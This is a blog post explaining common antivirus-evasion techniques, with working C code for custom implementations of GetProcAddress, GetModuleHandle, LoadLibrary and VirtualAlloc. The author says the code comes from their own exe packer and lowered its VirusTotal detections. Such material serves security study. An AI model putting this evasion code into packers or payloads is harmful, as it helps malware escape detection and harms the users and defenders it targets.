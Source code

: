 ```yaml
---
title: "AV Evasion: The most common techniques (with code examples)"
classes: wide
header:
  teaser: /assets/images/unpacking/evadingavs/videos.png
ribbon: DodgerBlue
description: "Learn how malware bypassses AV evasion (includes code examples)"
categories:
  - AV-evasion
toc: true
---
```


# Reducing AV detections

Malware authors work 24/7 to find breakthroughs that will allow them to create **FUD** (**Fully Undetected**) malware.

There's even a dedicated marketplace on YouTube and Telegram for people selling their so-called "`FUD crypters`"  that will claim to make *any* exe payload (including actual rat builds) *"have almost 0 detections on virustotal:"*

![Video results for searching "FUD Crypter" on Youtube](/assets/images/evadingavs/videos.png)

![FUD crypter marketplace on Telegram](/assets/images/evadingavs/marketplace.png)

And here's an example of how one of these FUD crypters look like:

![Video results for searching "FUD Crypter" on Youtube](/assets/images/evadingavs/crypter.png)

# How do they do this?

It's a combination of many different techniques. In this post, we'll cover the most basic ones:

- Custom WinAPI function implementations

- String Encryption

- Packing

Let's start with custom WinAPI function implementations:

As you may know, AVs look for programs that use "suspicious" WinAPI functions. We're talking `GetModuleHandle`, `GetProcAddress`, `VirtualAlloc`, etc.

Of course, these functions have legitimate uses, **but they're frequently used by malware authors**.

# The solution

Instead of directly calling a CRT function like `VirtualAlloc`, malware authors will create their own "custom implementations" of these functions.

For example, instead of using `GetModuleHandleW` directly, which is very suspicious:

![Direct WinAPI function usage](/assets/images/evadingavs/crypter.png)

They will create a custom function (`myGetModuleHandle`) that is meant to **functionally replicate** the original `GetModuleHandleW`, so that, instead of calling `GetModuleHandleW`, we will call `myGetModuleHandle` which looks a lot less suspicious, since it looks like a normal function in our code.

Here's an example of a custom `myGetModuleHandle` implementation that I used in my `custom .exe packer`:

![Custom WinAPI function implementation](/assets/images/evadingavs/customfunction.png)

As you can see, it manually walks over the linked list of modules (inside the PEB), copies the target module name (`ModuleName`) and the current module's full path (`FullDllName`) into buffers, and checks if the current module name contains (or matches) the target name (case-insensitive partial match).

If it matches, we return the base address (DllBase) of the loaded module:
```c
return (HMODULE)pEntry->DllBase;
```
If it walks through all modules without a match:
```
return NULL;
```

For my custom packer, I implemented custom functions for `VirtualAlloc` (`myVirtualAlloc`), `LoadLibrary` (`MyLoadLibrary`), `GetModuleHandle` (`myGetModuleHandle`), `GetProcAddress` (`myGetProcAddress`).

Below is the code for them:

Custom `GetProcAddress`:
```c
FARPROC myGetProcAddress(HMODULE hModule, LPCSTR lpProcName) {
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)hModule;
	PIMAGE_NT_HEADERS64 ntHeaders = (PIMAGE_NT_HEADERS64)((BYTE*)hModule + dosHeader->e_lfanew);
	PIMAGE_EXPORT_DIRECTORY exportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule + ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

	DWORD* addressOfFunctions = (DWORD*)((BYTE*)hModule + exportDirectory->AddressOfFunctions);
	WORD* addressOfNameOrdinals = (WORD*)((BYTE*)hModule + exportDirectory->AddressOfNameOrdinals);
	DWORD* addressOfNames = (DWORD*)((BYTE*)hModule + exportDirectory->AddressOfNames);
	for (DWORD i = 0; i < exportDirectory->NumberOfNames; i++) {
		if (strcmp(lpProcName, (const char*)hModule + addressOfNames[i]) == 0) {
			return (FARPROC)((BYTE*)hModule + addressOfFunctions[addressOfNameOrdinals[i]]);
		}
	}
	return NULL;

}
```

Custom `GetModuleHandle`:

```c
HMODULE myGetModuleHandle(LPCWSTR ModuleName) {
	PEB* pPeb = (PEB*)__readgsqword(0x60);
	PEB_LDR_DATA* Ldr = pPeb->Ldr;
	LIST_ENTRY* ModuleList = &Ldr->InMemoryOrderModuleList;
	LIST_ENTRY* pStartListEntry = ModuleList->Flink;
	WCHAR inputModule[MAX_PATH] = { 0 };
	WCHAR targetModule[MAX_PATH] = { 0 };
	for (LIST_ENTRY* pListEntry = pStartListEntry; pListEntry != ModuleList; pListEntry = pListEntry->Flink) {
		
		LDR_DATA_TABLE_ENTRY* pEntry = (LDR_DATA_TABLE_ENTRY*)((BYTE*)pListEntry - sizeof(LIST_ENTRY));
		wcscpy_s(targetModule, MAX_PATH, ModuleName);
		wcscpy_s(inputModule, MAX_PATH, pEntry->FullDllName.Buffer);

		if (StrStrW(inputModule, targetModule) != NULL) {
			return (HMODULE)pEntry->DllBase;
		}
	}
	return NULL;
}
```

Custom `LoadLibrary`:
```c
typedef NTSTATUS(NTAPI* pLdrLoadDll) (
	PWCHAR PathToFile,
	ULONG Flags,
	PUNICODE_STRING ModuleFileName,
	PHANDLE ModuleHandle
	);
HMODULE MyLoadLibrary(LPCWSTR lpFileName) {
	UNICODE_STRING ustrModule;
	HANDLE hModule = NULL;

	HMODULE hNtdll = myGetModuleHandle((LPCWSTR)L"ntdll.dll");
	pRtlInitUnicodeString RtlInitUnicodeString = (pRtlInitUnicodeString)myGetProcAddress(hNtdll, "RtlInitUnicodeString");

	RtlInitUnicodeString(&ustrModule, lpFileName);

	pLdrLoadDll myLdrLoadDll = (pLdrLoadDll)myGetProcAddress(myGetModuleHandle(L"ntdll.dll"), "LdrLoadDll");
	if (!myLdrLoadDll) {
		return NULL;
	}

	NTSTATUS status = myLdrLoadDll(NULL, 0, &ustrModule, &hModule);
	return (HMODULE)hModule;
}
```

Custom VirtualAlloc:

```c
typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
	HANDLE ProcessHandle,
	PVOID* BaseAddress,
	ULONG_PTR ZeroBits,
	PSIZE_T RegionSize,
	ULONG AllocationType,
	ULONG Protect
	);

LPVOID myVirtualAlloc(SIZE_T size, DWORD allocationType, DWORD protect) {
	HMODULE ntdll = myGetModuleHandle((LPCWSTR)L"ntdll.dll");
	if (ntdll == NULL) {
		printf("Failed to get address of NtAllocateVirtualMemory\n");
		return NULL;
	}
	pNtAllocateVirtualMemory myAllocateVirtualMemory = (pNtAllocateVirtualMemory)myGetProcAddress(ntdll, "NtAllocateVirtualMemory");
	if (!myAllocateVirtualMemory) {
		printf("Failed to get address of NtAllocateVirtualMemory\n");
		return NULL;
	}
	PVOID baseAddress = NULL;
	SIZE_T regionSize = size;

	NTSTATUS status = myAllocateVirtualMemory(
		GetCurrentProcess(),
		&baseAddress,
		0,
		&regionSize,
		allocationType,
		protect
	);
	return baseAddress;

}
```

Combined with some other tricks, these custom functions reduced the detections of my packer to around **5 detections** on VirusTotal:

![Direct WinAPI function usage](/assets/images/evadingavs/detections.png)

Before the custom functions, my packer was at around **19 detections**.









